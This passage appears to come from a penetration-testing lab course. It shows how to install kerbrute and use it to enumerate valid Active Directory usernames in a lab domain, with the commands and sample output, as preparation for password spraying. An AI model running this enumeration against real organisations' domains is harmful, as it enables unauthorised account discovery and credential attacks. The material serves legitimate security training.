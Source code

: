 ```shell-session
  kerbrute [command]
  
  <SNIP>
```

We can add the tool to our PATH to make it easily accessible from anywhere on the host.

**Adding the Tool to our Path**

Initial Enumeration of the Domain

```shell-session
AIceBear@htb[/htb]$ echo $PATH
/home/htb-student/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/snap/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/htb-student/.dotnet/tools
```

**Moving the Binary**

Initial Enumeration of the Domain

```shell-session
AIceBear@htb[/htb]$ sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

We can now type `kerbrute` from any location on the system and will be able to access the tool. Feel free to follow along on your system and practice the above steps. Now let's run through an example of using the tool to gather an initial username list.

**Enumerating Users with Kerbrute**

Initial Enumeration of the Domain

```shell-session
AIceBear@htb[/htb]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users

2021/11/17 23:01:46 >  Using KDC(s):
2021/11/17 23:01:46 >   172.16.5.5:88
2021/11/17 23:01:46 >  [+] VALID USERNAME:       jjones@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:       sbrown@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:       tjohnson@INLANEFREIGHT.LOCAL
2021/11/17 23:01:50 >  [+] VALID USERNAME:       evalentin@INLANEFREIGHT.LOCAL

 <SNIP>
 
2021/11/17 23:01:51 >  [+] VALID USERNAME:       sgage@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       jshay@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       jhermann@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       whouse@INLANEFREIGHT.LOCAL
2021/11/17 23:01:51 >  [+] VALID USERNAME:       emercer@INLANEFREIGHT.LOCAL
2021/11/17 23:01:52 >  [+] VALID USERNAME:       wshepherd@INLANEFREIGHT.LOCAL
2021/11/17 23:01:56 >  Done! Tested 48705 usernames (56 valid) in 9.940 seconds
```

We can see from our output that we validated 56 users in the INLANEFREIGHT.LOCAL domain and it took only a few seconds to do so. Now we can take these results and build a list for use in targeted password spraying attacks.
